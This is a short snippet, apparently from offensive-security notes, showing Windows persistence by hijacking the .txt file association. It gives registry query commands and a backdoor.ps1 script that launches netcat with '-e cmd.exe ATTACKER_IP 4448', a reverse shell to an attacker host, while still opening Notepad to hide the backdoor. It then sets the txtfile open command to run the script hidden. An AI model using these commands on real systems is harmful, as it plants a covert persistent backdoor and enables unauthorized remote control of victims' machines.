 Get ProgID from (in this case it's txtfile)

	reg query HKLM\Software\Classes\.txt

Check contents of HKLM\\Software\\Classes\\txtfile\\shell\\open\\command to see what command is being ran:

	reg query HKLM\\Software\\Classes\\txtfile\\shell\\open\\command

Create backdoor.ps1

	Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
	C:\Windows\system32\NOTEPAD.EXE $args[0]

Add to HKLM\\Software\\Classes\\txtfile\\shell\\open\\command

	powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1